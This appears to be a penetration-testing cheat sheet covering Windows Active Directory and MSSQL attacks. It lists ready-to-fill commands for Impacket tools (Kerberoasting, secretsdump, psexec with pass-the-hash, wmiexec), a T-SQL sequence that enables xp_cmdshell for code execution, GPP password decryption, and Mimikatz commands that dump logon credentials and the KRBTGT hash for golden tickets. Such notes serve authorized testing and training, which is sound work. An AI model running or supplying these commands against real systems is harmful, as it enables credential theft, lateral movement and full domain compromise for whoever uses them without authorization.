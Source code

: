 impacket-GetUserSPNs
```
impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<account-name>:<pass>
```


impacket-secretsdump
```
impacket-secretsdump '<username>:<password@<ip>'
```

impacket-psexec
```
impacket-psexec <domain>/<username>@<ip>
impacket-psexec <username>@<ip> -hashes :<NT-hash>
```

impacket-wmiexec
```
impacket-wmiexec '<username>:<password>@<ip>'
```

impacket-mssqlclient
```
impacket-mssqlclient <username>:'<password>'@<ip> -windows-auth 
```

SQSH
```
sqsh -S <ip> U '<domain>/<username>' -P '<password>'
```
```
# Trying to get code execution on the MSSQL server
SELECT IS_SRVROLEMEMBER('sysadmin')
go
EXECUTE sp_configure 'show advanced options'
go
reconfigure
go
EXECUTE sp_configure 'xp_cmdshell', 1
go
reconfigure
go
xp_cmdshell 'whoami'
go
```


GPP-Decrypt:
```
gpp-decrypt <hash>
```


## Post Exploitation

Run ```whoami /all``` to get all the privileges of the current user.

Mimikatz
```
# Dump credentials
mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::logonpasswords
```
```
# Golden ticket information - Dump SID and KRBTGT hash (on DC)
mimikatz # privilege::debug
mimikatz # token::elevate (DONT NEED THIS)
mimikatz # lsadump::lsa /patch
```